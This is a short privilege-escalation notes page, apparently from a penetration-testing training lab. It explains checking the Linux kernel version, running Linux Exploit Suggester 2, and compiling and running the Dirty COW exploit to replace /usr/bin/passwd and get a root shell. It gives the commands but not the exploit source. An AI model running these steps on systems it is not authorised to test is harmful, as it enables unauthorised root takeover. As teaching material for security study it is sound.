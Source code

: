 # 💠 Kernel Version

```bash
uname -r
```

puis cherche une exploit.

Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.\
Run the **Linux Exploit Suggester 2** tool to identify potential kernel exploits on the current system:

```bash
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
```

The popular Linux kernel exploit "Dirty COW" should be listed. Exploit code for Dirty COW can be found at **/home/user/tools/kernel-exploits/dirtycow/c0w.c**. It replaces the SUID file /usr/bin/passwd with one that spawns a shell (a backup of /usr/bin/passwd is made at /tmp/bak).\
Compile the code and run it (note that it may take several minutes to complete):

{% code lineNumbers="true" %}
```bash
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w
```
{% endcode %}

Once the exploit completes, run /usr/bin/passwd to gain a root shell:

```bash
/usr/bin/passwd
```
